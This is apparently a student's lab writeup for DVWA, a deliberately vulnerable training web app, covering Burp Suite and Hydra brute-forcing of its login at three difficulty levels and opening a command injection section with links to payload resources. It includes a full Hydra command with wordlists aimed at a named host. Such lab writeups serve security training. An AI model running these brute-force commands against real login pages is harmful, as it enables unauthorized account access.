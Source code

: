 # GSS DVWA Writeup
This is my writeup for DVWA (Damn Vulnerable Web Application)
> Q: `What is DVWA?`
A: `Damn Vulnerable Web Application (DVWA) is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment`

![](https://i.imgur.com/jSp68dL.png)



## Brute Force

### Low
* Burp Suite Intruder - Sniper
  關鍵字篩選成功登入請求
![](https://i.imgur.com/OuIfGLy.png)

    **Usernames:**
    ```sh!
    wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Usernames/top-usernames-shortlist.txt
    ```
    **Passwords**
    ```sh!
    wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Common-Credentials/10k-most-common.txt
    ```

* Hydra
    ```sh!
    hydra -L top-usernames-shortlist.txt -P 10k-most-common.txt -vV digidvwa.azurewebsites.net http-get-form "/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:F=Username and/or password incorrect.:H=Cookie: PHPSESSID=${PHPSESSID};security=low"
    ```
    
### Medium
伺服器會增加Response的延遲時間，用多執行續可增加效率又不導致過載
`Burp`、`Hydra`指定`Thread` or `Resource Pool`

### High
* Burp Suite Intruder - Cluster Bomb + CSRF Token Grabber
* 需要從request驗證CSRF Token，所以寫Python腳本
requests是I/O Based的，所以用threading
```powershell!
$ poc/brute_force.py
```


## Command Injection
Refer - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection
Refer - https://github.com/commixproject/commix/wiki/Getting-Shells
